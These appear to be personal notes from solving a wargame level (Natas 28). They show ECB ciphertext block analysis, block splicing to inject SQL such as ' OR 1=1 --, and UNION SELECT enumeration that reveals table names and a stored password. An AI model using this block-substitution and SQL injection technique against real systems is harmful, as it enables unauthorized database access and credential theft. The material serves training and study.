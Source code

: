 

argon?

a: G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjP|KriAqPE2++uYlniRMkobB1|vfoQVOxoUVz5bypVRFkZR5BPSyq/LC12hqpypTFRyXA=
b: G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjP|IYiwNnSJY7KHJGU+XjuMzV|vfoQVOxoUVz5bypVRFkZR5BPSyq/LC12hqpypTFRyXA=

ecb? https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation
cuz its encrypting the same the start and end

0:  G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLof/YMma1yzL2UfjQXqQEop36O0aq+C10FxP/mrBQjq0eOsaH+JhosbBUGEQmz/to=
2:  G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPKxMKUxvsiccFITv6XJZnrHSHmaB7HSm1mCAVyTVcLgDq3tm9uspqc7cbNaAQ0sTFc=
4:  G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPI1BKmpZ1/9YUtPH5DShPyqKSh/PMVHnhLmbzHIY7GAR1bVcy3Ix3D2Q5cVi8F6bmY=
8:  G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPJFPgAgYC9NzNUPDrdwlHfCiW3pCIT4YQixZ/i0rqXXY5FyMgUUg+aORY/QZhZ7MKM=
10: G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLAhy3ui8kLEVaROwiiI6Oec4pf+0pFACRndRda5Za71vNN8znGntzhH2ZQu87WJwI=
12: G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLAhy3ui8kLEVaROwiiI6OezoKpVTtluBKA+2078pAPR3X9UET9Bj0m9rt/c0tByJk=
13: G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLAhy3ui8kLEVaROwiiI6OeH3RxTXb8xdRkxqIh5u2Y5GIjoU2cQpG5h3WwP7xz1O3YrlHX2nGysIPZGaDXuIuY
14: G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLAhy3ui8kLEVaROwiiI6Oe7NNvj9kWTUA1QORJcH0n5UJXo0PararywOOh1xzgPdF7e6ymVfKYoyHpDj96YNTY
15: G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLAhy3ui8kLEVaROwiiI6OeWu8qmX2iNj9yo/rTMtFzb6dz8xhQlKoBQI8fl9A304VnjFdz7MKPhw5PTrxsgHCk
16: G+glEae6W/1XjA7vRm21nNyEco/c+J2TdR0Qp8dcjPLAhy3ui8kLEVaROwiiI6OeiSUVjPxawG0iv9oLcsjxUad+jtGqvgtdBcT/5qwUI6tHjrGh/iYaLGwVBhEJs/7a

from 12 to 13 changed by len("rlHX2nGysIPZGaDXuIuY") = 20, but base64 decoded is len **16**

         ' OR 1=1
connection reset by peer???
maybe they have a filter list or something

         ' OR
works

         ' OR 1=1; -- 
conn reset

         ' AND 1=1
conn reset

recipe:
URL_Decode(true)
From_Base64('A-Za-z0-9+/=',true,false)
To_Hex('Space',16)


0:
1b e8 25 11 a7 ba 5b fd 57 8c 0e ef 46 6d b5 9c
dc 84 72 8f dc f8 9d 93 75 1d 10 a7 c7 5c 8c f2
e8 7f f6 0c 99 ad 72 cc bd 94 7e 34 17 a9 01 28
a7 7e 8e d1 aa be 0b 5d 05 c4 ff e6 ac 14 23 ab
47 8e b1 a1 fe 26 1a 2c 6c 15 06 11 09 b3 fe da

12:
1b e8 25 11 a7 ba 5b fd 57 8c 0e ef 46 6d b5 9c 
dc 84 72 8f dc f8 9d 93 75 1d 10 a7 c7 5c 8c f2 
c0 87 2d ee 8b c9 0b 11 56 91 3b 08 a2 23 a3 9e 
ce 82 a9 55 3b 65 b8 12 80 fb 6d 3b f2 90 0f 47 
75 fd 50 44 fd 06 3d 26 f6 bb 7f 73 4b 41 c8 99

13:
1b e8 25 11 a7 ba 5b fd 57 8c 0e ef 46 6d b5 9c 
dc 84 72 8f dc f8 9d 93 75 1d 10 a7 c7 5c 8c f2 
c0 87 2d ee 8b c9 0b 11 56 91 3b 08 a2 23 a3 9e 
1f 74 71 4d 76 fc c5 d4 64 c6 a2 21 e6 ed 98 e4 
62 23 a1 4d 9c 42 91 b9 87 75 b0 3f bc 73 d4 ed 
d8 ae 51 d7 da 71 b2 b0 83 d9 19 a0 d7 b8 8b 98


a:
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPKriAqPE2%2B%2BuYlniRMkobB1vfoQVOxoUVz5bypVRFkZR5BPSyq%2FLC12hqpypTFRyXA%3D

1b e8 25 11 a7 ba 5b fd 57 8c 0e ef 46 6d b5 9c 
dc 84 72 8f dc f8 9d 93 75 1d 10 a7 c7 5c 8c f2 
ab 88 0a 8f 13 6f be b9 89 67 89 13 24 a1 b0 75 
bd fa 10 54 ec 68 51 5c f9 6f 2a 55 44 59 19 47 
90 4f 4b 2a bf 2c 2d 76 86 aa 72 a5 31 51 c9 70

         ' OR 1=1; --
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPI5F6VCqpwV1FClOSe%2BOGDlIpN7RbAjlBEzYTBOcgJIIkHAmMS6zcXtk1dWTlEF3X5k0NzIaCU2kq38vTeW0b%2BK

1b e8 25 11 a7 ba 5b fd 57 8c 0e ef 46 6d b5 9c 
dc 84 72 8f dc f8 9d 93 75 1d 10 a7 c7 5c 8c f2 
39 17 a5 42 aa 9c 15 d4 50 a5 39 27 be 38 60 e5 
22 93 7b 45 b0 23 94 11 33 61 30 4e 72 02 48 22 
41 c0 98 c4 ba cd c5 ed 93 57 56 4e 51 05 dd 7e 
64 d0 dc c8 68 25 36 92 ad fc bd 37 96 d1 bf 8a

aaaaaaaaa' OR 1=1; --
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPIR27gK4CQl3Jcmv%2F0YAxYOIpN7RbAjlBEzYTBOcgJIIkHAmMS6zcXtk1dWTlEF3X5k0NzIaCU2kq38vTeW0b%2BK

1b e8 25 11 a7 ba 5b fd 57 8c 0e ef 46 6d b5 9c 
dc 84 72 8f dc f8 9d 93 75 1d 10 a7 c7 5c 8c f2 
11 db b8 0a e0 24 25 dc 97 26 bf fd 18 03 16 0e <- aaa
22 93 7b 45 b0 23 94 11 33 61 30 4e 72 02 48 22 <- payload
41 c0 98 c4 ba cd c5 ed 93 57 56 4e 51 05 dd 7e 
64 d0 dc c8 68 25 36 92 ad fc bd 37 96 d1 bf 8a

          a
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsbtO2gh9PAvqK%2B3BthQLni68qM9OYQkTq645oGdhkgSlo%3D

1b e8 25 11 a7 ba 5b fd 57 8c 0e ef 46 6d b5 9c 
dc 84 72 8f dc f8 9d 93 75 1d 10 a7 c7 5c 8c f2 
2d 94 c3 37 a9 38 b3 91 10 79 3f 6c d8 c4 9b 1b 
b4 ed a0 87 d3 c0 be a2 be dc 1b 61 40 b9 e2 eb 
ca 8c f4 e6 10 91 3a ba e3 9a 06 76 19 20 4a 5a

          b
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsbkz5gzNGEeDHOfrljhA%2BkQsqM9OYQkTq645oGdhkgSlo%3D
1b e8 25 11 a7 ba 5b fd 57 8c 0e ef 46 6d b5 9c 
dc 84 72 8f dc f8 9d 93 75 1d 10 a7 c7 5c 8c f2 
2d 94 c3 37 a9 38 b3 91 10 79 3f 6c d8 c4 9b 1b <- spaces
93 3e 60 cc d1 84 78 31 ce 7e b9 63 84 0f a4 42 
ca 8c f4 e6 10 91 3a ba e3 9a 06 76 19 20 4a 5a

good payload:

1b e8 25 11 a7 ba 5b fd 57 8c 0e ef 46 6d b5 9c 
dc 84 72 8f dc f8 9d 93 75 1d 10 a7 c7 5c 8c f2 
2d 94 c3 37 a9 38 b3 91 10 79 3f 6c d8 c4 9b 1b 
22 93 7b 45 b0 23 94 11 33 61 30 4e 72 02 48 22 
41 c0 98 c4 ba cd c5 ed 93 57 56 4e 51 05 dd 7e 
64 d0 dc c8 68 25 36 92 ad fc bd 37 96 d1 bf 8a

From_Hex('Auto')
To_Base64('A-Za-z0-9+/=')
URL_Encode(true)

G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsbIpN7RbAjlBEzYTBOcgJIIkHAmMS6zcXtk1dWTlEF3X5k0NzIaCU2kq38vTeW0b%2BK

strat:
encrypt payload, get the 3rd block and replace with spaces:
2d 94 c3 37 a9 38 b3 91 10 79 3f 6c d8 c4 9b 1b
then encode back


         ' OR 1=1 -- 

G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPI5F6VCqpwV1FClOSe%2BOGDlWY4bHaEWFEfgtXy4iixC3kHAmMS6zcXtk1dWTlEF3X5k0NzIaCU2kq38vTeW0b%2BK
1b e8 25 11 a7 ba 5b fd 57 8c 0e ef 46 6d b5 9c 
dc 84 72 8f dc f8 9d 93 75 1d 10 a7 c7 5c 8c f2 
2d 94 c3 37 a9 38 b3 91 10 79 3f 6c d8 c4 9b 1b 
59 8e 1b 1d a1 16 14 47 e0 b5 7c b8 8a 2c 42 de 
41 c0 98 c4 ba cd c5 ed 93 57 56 4e 51 05 dd 7e 
64 d0 dc c8 68 25 36 92 ad fc bd 37 96 d1 bf 8a
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsbWY4bHaEWFEfgtXy4iixC3kHAmMS6zcXtk1dWTlEF3X5k0NzIaCU2kq38vTeW0b%2BK
G%2BglEae6W%2F1XjA7vRm21nNyEco%2Fc%2BJ2TdR0Qp8dcjPItlMM3qTizkRB5P2zYxJsbWY4bHaEWFEfgtXy4iixC3kHAmMS6zcXtk1dWTlEF3X5k0NzIaCU2kq38vTeW0b%2BK

worked!!!
wrote payload in 28-2.py

trying payloads:

UNION SELECT VERSION()
8.0.43-0ubuntu0.24.04.1
mysql-server/8.0.43-0ubuntu0.24.04.1

UNION SELECT table_name FROM information_schema.tables
...
users
jokes

note: cant put quotes that easy :(

UNION SELECT column_name FROM information_schema.columns
...
password
username
joke

UNION SELECT username FROM users
natas29

UNION SELECT password FROM users
31F4j3Qi2PnuhIZQokxXk1L3QT9Cppns


